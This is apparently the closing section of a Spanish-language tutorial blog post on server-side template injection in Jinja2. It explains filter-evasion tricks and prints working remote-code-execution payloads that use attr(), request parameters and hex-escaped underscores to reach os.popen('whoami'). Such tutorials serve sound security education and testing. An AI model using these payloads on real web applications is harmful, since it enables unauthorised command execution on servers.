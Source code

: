### RCE evadiendo filtros

En ocasiones puede que los payloads anteriores no se esten ejecutando por que se puede estar filtrando \_\_globals__ o \_\_builtins__, y aqui es donde ```attr()``` llega a salvar el dia, tenemos este payload:

![](/assets/img/UPDWP-ssti/payload_filtros.png)

```request``` tiene representa a la peticion, y tiene toda la informacion de esta(parametros), y ```attr()``` permite acceder directemante a un atributo u objeto que se le indique dentro de los parentesis, y en este caso esta accediendo a ```builtins```, por que tiene las funciones incorporadas de python, y con esto, simplemente le decimos que importe el modulo ```os``` y ejecute el comando ```date```, ojo, esto no llega a funcionar siempre.

Y bueno, te dejo otros payloads para evadir filtros.

#### Bypass de \_\_class__ y _

Tomando en cuenta de que ```request``` tiene acceso a todos los parametros que fueron enviados, se puede usar "request.args.param" para recuperar el valor del parametro que viene por GET: \{\{request[request.args.param]}}&parametroVulnerable=\_\_class__


#### Bypass todo en uno

<code>&{&{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('whoami')|attr('read')()}}</code>

(no pude supe bien como escapar toda la cadena, asi que quitenle los dos ampersan que estan entre las dos llaves del inicio)

#### Referencias
[https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

[https://www.youtube.com/watch?v=SN6EVIG4c-0](https://www.youtube.com/watch?v=SN6EVIG4c-0)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


Eso ha sido todo, gracias por leer ❤

![](/assets/img/UPDWP-ssti/waifu.jpg)